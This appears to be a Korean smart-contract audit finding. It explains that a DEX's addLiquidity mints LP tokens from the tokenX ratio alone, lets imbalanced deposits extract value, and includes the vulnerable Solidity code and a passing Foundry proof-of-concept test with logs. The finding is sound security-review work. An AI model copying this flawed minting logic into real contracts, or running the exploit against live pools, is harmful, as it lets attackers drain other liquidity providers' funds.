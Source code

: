 # imbalance한 유동성 공급 방식의 문제점
# 최영현

### 설명 
토큰의 비율을 고려하지 않아, 유동성을 공급 할 때 공급하는 tokenX와 tokenY에서 tokenY의 값이 작아더라도 tokenX의 비율로 LP 토큰을 발행하기 때문에, 이를 악용해 이득을 얻을 수 있다.



```
function  addLiquidity(uint256 tokenXAmount, uint256 tokenYAmount, uint256 minimumLPTokenAmount) external  returns (uint LPTokenAmount){

require(tokenXAmount > 0 && tokenYAmount > 0);

(uint256 reserveX, ) = amount_update(); 

(, uint256 reserveY) = amount_update();  

if(totalSupply() == 0){ LPTokenAmount = tokenXAmount * tokenYAmount / 10**18;}
else{ LPTokenAmount = totalSupply() * tokenXAmount / reserveX;}
require(minimumLPTokenAmount <= LPTokenAmount);
X.transferFrom(msg.sender, address(this), tokenXAmount);
amountX = reserveX + tokenXAmount;

Y.transferFrom(msg.sender, address(this), tokenYAmount);

amountY = reserveY + tokenYAmount;

_mint(msg.sender, LPTokenAmount);

}
```

```
function  testAddLiquidity12() external {
uint firstLPReturn = dex.addLiquidity(1000  ether, 1000  ether, 0);
emit  log_named_uint("firstLPReturn", firstLPReturn);
uint secondLPReturn = dex.addLiquidity(1000  ether, 1, 0);
emit  log_named_uint("secondLPReturn", secondLPReturn);
(uint  tx, uint ty) = dex.removeLiquidity(1000  ether, 0, 0);
emit  log_named_uint("tx", tx);
emit  log_named_uint("ty", ty);
}
[PASS] testAddLiquidity12() (gas: 215748)
Logs:
  firstLPReturn: 1000000000000000000000000
  secondLPReturn: 1000000000000000000000000
  tx: 1000000000000000000
  ty: 500000000000000000
```
